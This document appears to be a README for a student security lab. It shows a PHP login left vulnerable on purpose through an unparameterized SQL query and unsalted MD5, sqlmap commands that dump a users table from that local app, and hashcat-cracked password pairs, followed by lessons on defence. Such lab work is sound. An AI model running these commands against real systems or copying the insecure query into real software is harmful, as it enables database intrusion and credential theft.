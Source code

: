 # Password Extraction & Cracking Demo via SQL Injection and Hashcat

This project demonstrates how a vulnerable web application can be exploited using SQL injection to extract password hashes from a backend database, followed by cracking those hashes using *hashcat* and a common wordlist (`rockyou.txt`).

---

## 1. Simulating the Vulnerable Environment

We created a PHP-based login form that is **intentionally insecure** by:

- Using unsalted MD5 for password hashing.
- Executing unparameterized SQL queries.

```php
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$hashedPassword'";
```

This was demonstrated using our vulnerable_login.php file.

## 2. SQL Injection

We used SQLmap to perform an automated SQL injection attack using the following steps:
- Prepared a test POST request
    ``` 
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch --level=5 --risk=3
    ```
- Check for vulnerable databases
    ```
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch --level=5 --risk=3 --dbs
    ```
- List tables in vulnerable database
    ```
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch -D bankapp --tables
    ```
- Dump users table containing MD5 hashed passwords
    ```
    sqlmap -u "http://localhost/vulnerable_login.php" --data="username=user1&password=123456" --batch -D bankapp -T users --dump
    ```

## 3. Prearing and Cracking Hashed Passwords

We saved the hashedpasswords to our `md5hashes.txt` and used *hashcat* and a bashscript `./crack_md5.sh` to automate the cracking process. The script used hashcat and the `rockyou.txt` password list to crack the md5 hashes, rendering this output:

```
Cracked hashes:
482c811da5d5b4bc6d497ffa98491e38:password123
55122120498e3673fa6fcb8f7087a494:usr2123
3904117c6df2f91e8e92db1406bcb5ed:bob363
25ab1e918ecafc97687acffa220f692b:hardpass
9a7108cfaa7f51efb5fcda9e9d4b7a90:hello100
2bc35ad1dc45b4359d3c4acbe4fbdaf7:newpass8
cc9a250cde92dc08fa00a6c6d8944408:bread101
```

### Observations and Lessons

This helped us learn that we should always use `parameterized queries` to prevent SQL injection and easy access to our databases with secure information. We should also avoid storing unsalted passwords, especially with weak encryption such as MD5. We can also attempt to employ attempt limits and input validation to avoid brute force and injection attacks in the future.
